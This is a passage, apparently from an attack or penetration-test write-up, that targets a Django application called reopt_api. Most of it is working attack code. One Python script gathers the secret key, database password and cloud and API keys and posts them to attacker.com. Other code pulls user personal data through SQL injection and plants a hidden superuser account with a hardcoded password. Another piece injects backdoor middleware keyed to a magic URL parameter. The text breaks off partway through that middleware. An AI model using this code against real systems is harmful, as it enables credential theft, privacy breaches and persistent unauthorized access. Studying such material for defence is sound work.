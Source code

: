 ```python
# django_shell_exfil.py
# Via Django shell access (if RCE achieved)

from django.conf import settings
import json

secrets = {
    'SECRET_KEY': settings.SECRET_KEY,
    'DB_PASSWORD': settings.DATABASES['default']['PASSWORD'],
    'NREL_API_KEY': getattr(settings, 'NREL_API_KEY', None),
    'AWS_ACCESS_KEY': getattr(settings, 'AWS_ACCESS_KEY_ID', None),
}

# Exfiltrate via HTTP
import requests
requests.post('http://attacker.com/exfil', json=secrets)

# Or write to file
with open('/tmp/.hidden_secrets.json', 'w') as f:
    json.dump(secrets, f)
```

**Extract User PII:**

```sql
-- Via SQL injection
SELECT username, email, first_name, last_name, date_joined
FROM auth_user;

-- Extract energy project data
SELECT * FROM reopt_project LIMIT 1000;
```

---

### 6.2 Persistence Mechanisms

**Method 1: Backdoor Admin Account**

```python
# Create hidden admin user
from django.contrib.auth.models import User

User.objects.create_superuser(
    username='.system',  # Hidden with dot prefix
    email='system@localhost',
    password='SecretBackdoorPass123!'
)
```

**Method 2: Inject Malicious Middleware**

```bash
# If you have file write access
cat >> reopt_api/middleware.py <<EOF

class BackdoorMiddleware:
    def __init__(self, get_response):
        self.get_response = get_response

    def __call__(self, request):
        # Check for magic parameter
        if request.GET.get('master_key') == 'SECRET_BACKDOOR_2023':
            # Grant admin access
            from django.contrib.auth.models import User
            request.user = User.objects.filter(is_superuser=True).first()

```